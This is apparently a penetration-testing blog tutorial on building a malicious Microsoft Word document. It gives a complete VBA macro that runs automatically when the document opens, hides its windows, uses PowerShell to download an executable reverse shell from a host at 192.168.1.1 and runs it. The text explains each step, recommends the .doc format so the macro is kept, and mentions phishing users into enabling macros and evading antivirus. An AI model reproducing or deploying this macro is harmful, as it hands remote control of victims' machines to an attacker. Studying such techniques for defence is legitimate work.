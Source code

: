 ```yaml
---
title: "How To Make A Reverse Shell With Microsoft Word Macros"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

By leveraging VBA code in a macro inside of a Microsoft Word document we can harness functionality to open and run command prompts. The target user must enable both editing mode and macros or else Microsoft Word will not let macros run our reverse shell. We will use some tips and tricks like making sure command prompt does not open visually, making the macro run without the user having to do anything to enable it, and in a future post running our payload in memory to leave no trace. Most Microsoft Word users are used to having to "enable editing" and as such rarely question when they have to do so. The tricky part is either hoping or coaxing the user into allowing macros as well; a pop up far less users see and might question at first.

## Microsoft Word Setup

You will need to have Word already installed and able to be ran. While this post will not go into the phishing tactics that also must be involved for a succesful exploit a future post most absolutely will. Once inside our word document we need to navigate to the Macros section by going to View --> Macros. Once the Macros window pops up we must choose what document to apply this to. You can either select the name of your document or, for a currently unnamed docuement, select "Document1 (document)". If we do not select the current docuement it will default to adding this to our global template. After selecting our current document we must name the macro. Most online tutorials call their macro "MyMacro" but any naming convention here will work. This is also another moment to employ phishing tactics as a more educated user might want to inspect what macros are being ran. Once the macro is named the VBA editor will launch.

Here is the complete macro below. We will work through the macro top to bottom to make sure we understand what is happening.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```


## Macro Explained

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Document_Open() and Autopen() are redundant options making sure the user runs our macro since they might not do this willingly. They are both there for scenarios where one might not trigger but they both accomplish the same goal.


```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide
```


This is the heart of the exploit and also where you should adjust your ip address and file name accordingly. To launch the Shell function we need both the exePath and str variables defined; which you can see them as so above. ActiveDocument.Path is used since the powershell download will not go to the normal downloads folder but inside of Word. After each of these shell commands you may notice the vbHide attribute. As one might guess, this hides the command prompts being run from showing allowing the illusion to the user that nothing malicious is happening in the background.


```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
```


We skipped over the Wait (2) command in the paragraph above as it is not as simple as it looks. VBA does not have a built in wait function so instead we have create our own. In the end, whatever number you put in Wait (#) will make the program stall for that many seconds. Remember what is happening: we are reaching out to our own server to download the reverse shell. Due to poor internet connection it is possible that the payload is not fully downloaded by the time the macro reaches the execution part and could end up causing a false negative. By including this wait function we give the program ample time to download our payload for execution.

## Saving The File

While you might be tempted to save this as the modern .docx format this will actually stop this attack from working. Instead, we need to use the much older but still in use .doc Word file extension to make sure our macros are kept with the file.

## Wrap up

In this blog we did not go over how to craft a msfvenom reverse shell, however, I will have a blog post coming out soon and will link it here. Additionally, this technique does not employ best practices by downloading the reverse shell instead of loading and running it in memory. There will also be a blog post comming on this soon and I will link it here below. Loading the payload in memory is highly encouraged as many antivirus or detection programs will throw up flags when the payload is downloaded as described in this post.
